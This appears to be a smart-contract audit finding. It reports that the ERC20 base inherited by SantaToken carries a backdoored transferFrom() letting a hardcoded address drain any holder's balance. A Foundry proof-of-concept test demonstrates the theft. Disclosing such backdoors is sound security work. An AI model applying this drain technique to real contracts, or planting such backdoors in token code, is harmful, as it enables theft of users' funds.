 ## HIGH


### [HIGH-1] malicious transferFrom function that SantaToken Inherits from.

**Description**

`ERC20` contract that `SantaToken.sol` inherits, is malicious because of how `tranferFrom()` function is Built. if we take a look at the `tranferFrom()` function, this `0x815F577F1c1bcE213c012f166744937C889DAF17` Address Can Drain a given User Balance and send it to him or anyone else.

**Impact**

`0x815F577F1c1bcE213c012f166744937C889DAF17` Address Can Steal Any Address Balance that holds `SantaToken`s.

**Proof of Concepts**

```javascript
    function testMaliciousTransferFrom() external {
        // santa sets `user` status to `EXTRA_NICE`.
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.startPrank(user);
        vm.warp(1_703_500_000);
        // `user` collects present receives 1 NFT plus 1e18 SantaTokens.
        santasList.collectPresent();
        vm.stopPrank();

        console2.log("Current SantaToken `user` Balance After Collecting Present: ", santaToken.balanceOf(user));
        assertEq(santaToken.balanceOf(user), 1e18);

        // malicious actor steals `user` balance with transferFrom().
        address maliciousActor = 0x815F577F1c1bcE213c012f166744937C889DAF17;
        vm.startPrank(maliciousActor);
        console2.log("MaliciousActor Comes in Tries to Call transferFrom() to Steal `user` balance.");
        santaToken.transferFrom(user, maliciousActor, 1e18);
        vm.stopPrank();

        console2.log("Current SantaToken `user` Balance After MaliciousActor Stole his/her Tokens: ", santaToken.balanceOf(user));
        console2.log("Current SantaToken `maliciousActor` Balance After Stealing it From `user` with transferFrom() function: ", santaToken.balanceOf(maliciousActor));
        assertEq(santaToken.balanceOf(user), 0);
        assertEq(santaToken.balanceOf(maliciousActor), 1e18);
    }
```
